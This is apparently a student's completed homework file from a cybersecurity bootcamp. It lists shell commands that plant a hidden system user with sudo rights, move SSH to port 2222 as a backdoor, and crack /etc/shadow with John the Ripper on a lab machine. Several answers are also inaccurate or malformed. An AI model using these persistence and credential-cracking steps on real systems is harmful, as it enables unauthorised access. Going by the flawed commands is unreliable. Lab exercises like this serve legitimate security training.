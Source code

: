 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 900 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 900 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `Command line - visudo -->  Add "%sysd   ALL=(ALL:ALL) ALL" under the sudo access line. Note: quotes are just denoting the added line for this answer.`

6. Test that `sudo` access works without your password:

    ```Command line - sudo su sysd --> 
    Test access with - sudo -v -->
    type in password.
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```Run - nano sshd_config --> Add Port 2222 under #Port 22 --> Save and exit.
    -```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `run - systemctl restart ssh.service.`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222 --> `

4. Use `sudo` to switch to the root user:
    - `sudo -su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john passwords.txt`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


